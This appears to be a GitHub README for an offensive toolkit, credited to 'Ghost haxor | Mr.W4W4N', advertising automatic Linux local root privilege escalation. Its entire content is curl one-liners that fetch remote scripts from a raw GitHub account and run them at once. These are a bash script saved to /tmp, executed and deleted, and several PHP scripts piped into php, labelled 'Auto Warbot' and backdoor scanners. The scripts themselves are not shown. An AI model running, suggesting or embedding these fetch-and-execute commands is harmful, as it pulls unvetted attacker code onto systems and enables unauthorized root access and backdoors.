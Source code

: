 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& dos2unix /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
# Auto Backup defend ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/autobackup.php | php - backup y
```
# Auto Warbot ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/warbot.php | php
```
# scanner backdoor high ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/outsca.php | php
```
# Scanner backdoor simple ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/simple.php | php
```


☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
